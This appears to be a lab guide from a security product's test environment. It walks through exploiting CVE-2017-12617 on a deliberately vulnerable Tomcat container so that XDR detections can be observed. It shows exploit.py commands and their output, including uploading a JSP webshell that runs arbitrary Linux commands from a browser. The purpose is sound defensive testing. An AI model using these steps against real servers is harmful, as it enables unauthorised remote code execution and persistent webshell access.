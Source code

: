 # Scenario: Detect Tomcat RCE

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

If you need to extract the exploits unzip with the password `virus`:

```sh
$ cd ${ONEPATH}
$ unzip exploits.zip
```

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
$ cd ${ONEPATH}/exploits/tomcat-rce/
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-01.png "Poc")

### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-02.png "Exploit")
